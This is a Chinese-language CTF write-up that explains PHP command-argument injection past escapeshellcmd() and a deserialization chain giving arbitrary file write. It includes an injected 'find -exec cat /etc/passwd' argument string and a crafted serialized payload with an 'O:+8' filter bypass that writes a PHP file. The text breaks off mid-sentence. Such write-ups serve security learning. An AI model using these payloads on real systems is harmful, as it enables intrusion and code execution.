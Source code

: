 为什么;前不需要加转义符？ 因为escapeshellcmd()[官方手册](http://php.net/manual/zh/function.escapeshellcmd.php)是这样描述的 

```
字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。
```

所以经过处理，程序会自动给我们的;加上转义符

```php
<?php
	$file="sth -or -exec cat /etc/passwd ; -quit";
	var_dump(escapeshellcmd($file));
	string(38) "sth -or -exec cat /etc/passwd \; -quit";
```

#### 命令执行3

文件路径

> wp-includes/class-wp-cachefile.php

hhhh，看了师傅写的，表示红帽杯线下不过是个过场，打给那些领导看的。

首先[原题连接](https://github.com/bl4de/security_whitepapers/blob/master/RIPS_PHP_Security_Calendar_2017.md)

简单的说下思路：

1. 首先传入$_COOKIE[‘data’] 
2. 触发**construct()**
3. 触发$data = $this->loadData($data);
4. 触发unserialize($data);
5. 触发**destruct() 
6. 触发createCache() 
7. 最后来到file_put_contents($file, $tpl); 达成任意写文件的目的 

构造

```php
<?php
class Template {
    public $cacheFile = './sky.php';
    public $template = '<?php phpinfo();';
}
$a = new Template();
$data = serialize($a);
echo $data;
```

得到

>  O:8:"Template":2:{s:9:"cacheFile";s:9:"./sky.php";s:8:"template";s:16:"<?php phpinfo();";} 

添加上绕过检测的部分，最后给出payload 

>  a:1:{i:0;O:+8:"Template":2:{s:9:"cacheFile";s:9:"./sky.php";s:8:"template";s:16:"<?php phpinfo();";}} 

简单说明一下，首先利用 
